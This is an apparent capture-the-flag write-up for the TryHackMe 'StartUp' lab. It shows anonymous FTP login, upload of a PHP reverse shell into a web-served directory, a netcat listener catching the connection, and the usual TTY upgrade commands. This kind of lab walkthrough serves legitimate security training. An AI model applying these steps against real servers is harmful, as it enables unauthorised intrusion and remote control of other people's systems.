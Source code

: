 
## INITIAL ACCESS

1. Uploading a `test.txt` file through the ftp listing using the **put** command.

```bash
└─$ echo "test me" > test.txt

└─$ ftp 10.10.44.0 
Connected to 10.10.44.0.
220 (vsFTPd 3.0.3)
Name (10.10.44.0:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||35589|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 11 07:38 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rwxrwxr-x    1 112      118          5494 Nov 11 07:38 php-reverse-shell.php
-rwxrwxr-x    1 112      118             8 Nov 11 07:31 test.txt
226 Directory send OK.
ftp> 
```

2. If we can view it through the web listing, then we have code execution. And we have it.
![](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/StartUp/images/exploit_view.png)

3. Now we can do the same with a `php reverse shell` to get an initial foothold on the box.

```bash
└─$ nc -lnvvp 1337
listening on [any] 1337 ...
connect to [10.17.88.193] from (UNKNOWN) [10.10.44.0] 36018
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:39:47 up  1:40,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ ^Z
zsh: suspended  nc -lnvvp 1337
                                                                                                                                   
┌──(kali㉿kali)-[~/…/In Progress/Easy/StartUp/ssh]
└─$ stty raw -echo;fg                   
[1]  + continued  nc -lnvvp 1337

www-data@startup:/$ export TERM=xterm
www-data@startup:/$ stty rows 31 cols 131
www-data@startup:/$ whoami
www-data
```
